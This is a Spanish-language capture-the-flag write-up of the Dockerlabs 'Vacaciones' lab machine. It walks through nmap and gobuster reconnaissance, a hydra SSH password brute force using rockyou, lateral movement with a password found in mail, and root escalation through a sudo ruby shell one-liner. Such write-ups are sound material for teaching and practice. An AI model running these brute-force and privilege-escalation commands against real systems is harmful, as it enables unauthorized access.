 # Writeup de la Máquina Vacaciones de Dockerlabs

Lo primero que hago es realizar un escaneo de todos los puertos que tenga abiertos la máquina con la herramienta nmap. Una vez realizado el escaneo recojo los puertos abiertos con la utilidad extractPorts del fichero donde se ha guardado el escaneo de nmap. 

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```
```bash
extractPorts allPorts
```
![Primer nmap](_images/Screenshot_1.png)

Teniendo los puertos copiados procedo a ejecutar un escaneo más profundo solo para los puertos 22 y 80 con nmap. 

```bash
sudo nmap -p22,80 -sCV 172.17.0.2 -oN targeted
```

![Segundo NMAP](_images/Screenshot_2.png)

Una vez terminado el escaneo veo que la version del servicio ssh es antigua, así que busco si hay alguna vulnerbilidad para esta versión con la utilidad searchsploit. Probe con algunos exploits que se listaban pero no obtuve resultados.

```bash
searchsploit OpenSSH 7.6
```
![Searchsploit](_images/Screenshot_3.png)

Visto que con los scripts no sacaba ningún usuario, procedo a investigar el puerto 80 de la máquina y lo primero que realizo es utilizar la herramienta whatweb, para listar las tecnologías utilizadas.

```bash
whatweb http://172.17.0.2
```

![whatweb](_images/Screenshot_4.png)

Viendo que no consigo sacar mucho con whatweb procedo a mirar desde el navegador, en este me encuentro una página en blanco, así que decido ver el código fuente y encuentro un mensaje oculto.

![Navegador](_images/Screenshot_5.png)

Por si acaso realizo un directory listing por si hay algun archivo más, pero este no fue el caso.

```bash
gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2 -x html,php,sh,js,txt
```

![Gobuster](_images/Screenshot_6.png)

Viendo que no encuentro nada más decido utilizar fuerza bruta contra el servicio ssh con los nombres que se mencionaban en el mensaje del código fuente. Para realizar la fuerza bruta utilizo la herramienta hydra.

```bash
hydra -l camilo -P /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt ssh://172.17.0.2
```

![users](_images/Screenshot_7.png)

![hydra](_images/Screenshot_9.png)

Con el usuario camilo ha encontrado una contraseña, así que me conecto por ssh con estas credenciales.

```bash
ssh camilo@172.17.0.2
```

![Select](_images/Screenshot_10.png)

Una vez dentro reviso los correos, ya que en el mensaje decia que le había enviado un correo importante. Dentro de este encuentro una contraseña.

```bash
su juan
```

![Info Leakage](_images/Screenshot_11.png)

Hago un movimiento lateral ahora accediendo como juan, con esta cuenta reviso los permiso de sudoers y veo que puede ejecutar como root ruby.

```bash
sudo -l
```

![Revshell](_images/Screenshot_12.png)

Para escalar privilegios miro en la página GTFobins como hacerlo con ruby y de esta manera consigo escalar privilegios y completar la máquina.

```bash
sudo ruby -e 'exec "/bin/sh"'
```

![root2](_images/Screenshot_14.png)

